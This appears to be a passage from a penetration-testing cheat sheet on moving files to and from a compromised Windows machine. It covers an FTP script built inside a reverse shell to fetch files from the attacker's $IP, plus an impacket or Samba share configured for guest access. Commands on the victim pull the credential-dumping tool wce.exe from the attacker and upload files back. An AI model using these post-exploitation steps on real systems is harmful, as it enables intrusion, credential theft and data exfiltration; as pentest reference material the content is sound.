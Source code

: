 ### Windows Download from FTP
```bash
# In reverse shell
echo open $IP > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt

```

### Windows create SMB Server transfer files
```bash
# Attack machine
python /usr/share/doc/python-impacket/examples/smbserver.py

    # Or SMB service
    # http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
    vim /etc/samba/smb.conf
        [global]
        workgroup = WORKGROUP
        server string = Samba Server %v
        netbios name = indishell-lab
        security = user
        map to guest = bad user
        name resolve order = bcast host
        dns proxy = no
        bind interfaces only = yes

        [ica]
        path = /var/www/html/pub
        writable = no
        guest ok = yes
        guest only = yes
        read only = yes
        directory mode = 0555
        force user = nobody

    chmod -R 777 smb_path
    chown -R nobody:nobody smb_path
    service smbd restart

# Victim machine with reverse shell
Download: copy \\$IP\Lab\wce.exe .
Upload: copy wtf.jpg \\$IP\Lab

```
